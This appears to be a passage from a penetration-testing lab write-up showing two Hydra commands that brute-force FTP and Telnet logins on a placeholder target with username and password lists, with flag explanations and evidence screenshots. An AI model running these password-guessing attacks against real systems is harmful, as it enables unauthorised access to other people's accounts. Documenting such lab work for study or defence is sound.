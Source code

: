 ### 2.1 Brute force attack using Hydra
    hydra -L userlist.txt -P passwordlist.txt [Target_IP] ftp -V

-  `-L userlist.txt`: path to username list
-  `-P passwordlist.txt`: path to password list
-  `-V`: verbose (shows attempts)
-  `ftp`: targets ftp service

![alt text](evidence/image-11.png)
  
### 2.2 TELNET Brute force attack using Hydra
    hydra -L userlist.txt -P passwordlist.txt [Target_IP] telnet -V

-  `-L userlist.txt`: path to username list
-  `-P passwordlist.txt`: path to password list
-  `-V`: verbose (shows attempts)
-  `telnet`: targets telnet service

![alt text](evidence/image-13.png)

